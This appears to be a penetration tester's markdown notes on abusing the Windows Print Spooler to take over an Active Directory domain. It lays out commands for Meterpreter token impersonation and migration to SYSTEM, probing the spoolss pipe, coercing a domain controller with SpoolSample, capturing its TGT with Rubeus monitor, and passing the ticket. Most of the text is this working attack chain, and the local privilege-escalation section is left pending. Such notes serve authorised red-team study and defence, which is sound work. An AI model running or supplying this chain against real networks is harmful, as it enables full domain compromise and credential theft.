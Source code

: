 ## Abusing Print Spooler

To validate the presence of the MS-RPRN (Print System Remote Protocol) RPC pipe:

```powershell
dir \\<DC server name>\pipe\spoolss
```

Nb. It may only be possible to get a response from the named pipe when you have already impersonated the "NT AUTHORITY\\SYSTEM" user.

If you can get this response from attempting to query the named pipe then this is potentially a suitable context from which to run `Rubeus.exe` to capture coerced tickets.

### Abusing Print Spooler for local PrivEsc

Writeup pending

### Abusing Print Spooler for full domain pwnage

If you do not immediately get desirable output from probing the named pipe dir, try impersonating the SYSTEM user. From a Meterpreter console running with Administrator privilege:
```
load incognito
```
Verify a SYSTEM token that can be impersonated is available:
```
list_tokens -u
```
Impersonate the SYSTEM users token:
```
impersonate_token "NT AUTHORITY\\SYSTEM"
```
Get the running processes:
```
ps
```
Migrate into an appropriate process running as the SYSTEM user (nb. unsure if this is necessary in _addition_ to impersonating the SYSTEM token but eh doesn't take long to do both):
```
migrate 123
```
Verify we have the SYSTEM users context:
```
getuid
```
Test our access to the named pipe once more to see if our attack may work:
```powershell
dir \\<DC server name>\pipe\spoolss
```

From the same machine, get `Rubeus.exe` up and running. It's function at this stage is to sit and listen for incoming TGTs from the machine account of the target DC:
```powershell
.\Rubeus.exe monitor /interval:5 /nowrap /filteruser:DC03$
```

Once `Rubeus.exe` is up and running we're ready to coerce the DC, the positional arguments to `SpoolSample.exe` are the target server, ie. the DC, and the capture server, ie. the one we're running `Rubeus.exe` on, in that order:
```powershell
.\SpoolSample.exe DC03 WEB05
```

If the attack succeeds a base64 encoded TGT will arrive in the session we have `Rubeus.exe` running in. No time to waste! The TGT is good to be passed by `Rubeus.exe`:
```powershell
.\Rubeus.exe ptt /ticket:doIFIjCCBR6gAwIBBaEDAgEWo...
```
